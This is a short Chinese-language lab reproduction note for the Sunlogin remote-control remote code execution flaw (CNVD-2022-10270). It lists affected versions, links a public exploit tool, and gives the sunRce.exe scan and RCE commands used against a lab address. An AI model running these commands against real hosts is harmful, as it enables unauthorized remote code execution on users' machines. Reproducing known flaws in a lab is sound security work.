 好多文章没提，这里说一句  
CNVD-2022-10270：向日葵  
CNVD-2022-03672：向日葵简约版  

# 0x01-漏洞浅析
无

# 0x02-影响版本
向日葵个人版for Windows <= 11.0.0.33826  
向日葵简约版            <= V1.0.1.43315（2021.12）  

# 0x03-环境搭建
此处包含受影响版本的向日葵：https://github.com/ce-automne/SunloginRCE  
下载后安装即可  

# 0x04-复现过程
victim如下图  
![image](./image/01.png)  
攻击程序：https://github.com/ce-automne/SunloginRCE/releases  
执行如下命令  
```
.\sunRce.exe -h 192.168.153.130 -n 2000 -p 40000-65535 -t scan

需要注意：目标是否开着防火墙，我这边一开始扫不到端口，后来将目标防火墙关闭后可以扫到  
```
如下图  
![image](./image/02.png)  
执行如下命令  
```
.\sunRce.exe -t rce -h 192.168.153.130 -p 49942 -c "ipconfig"
```
如下图  
![image](./image/03.png)  

# 0x05-需要注意
无

# 0x06-参考链接
https://www.changchen.cc/archives/73/  
https://github.com/ce-automne/SunloginRCE  